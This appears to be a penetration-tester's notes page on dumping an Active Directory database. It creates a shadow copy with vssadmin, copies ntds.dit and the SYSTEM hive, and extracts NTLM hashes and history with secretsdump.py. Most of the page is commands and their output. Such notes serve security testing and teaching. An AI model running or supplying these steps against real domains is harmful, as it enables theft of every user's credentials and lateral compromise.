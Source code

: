 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{{%attachments title="Related files" fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Copy NTDS.dit

Path: `C:\Windows\NTDS\ntds.dit`

![example](images/example1.png)

### Copy SYSTEM

Path: `C:\Windows\System32\config\SYSTEM`

![example](images/example2.png)

### Extract hashes

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
